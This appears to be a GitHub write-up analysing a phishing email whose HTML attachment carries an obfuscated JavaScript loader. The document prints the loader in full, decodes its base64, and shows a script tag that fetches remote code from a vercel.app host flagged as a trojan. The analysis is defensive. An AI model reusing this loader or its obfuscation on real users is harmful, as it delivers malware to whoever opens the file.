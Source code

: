 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.

## Analysis

### pdf
Here is the content of the .pdf attachment:


I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "dGtlbXBAdC1vbmxpbmUuZGU="; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml

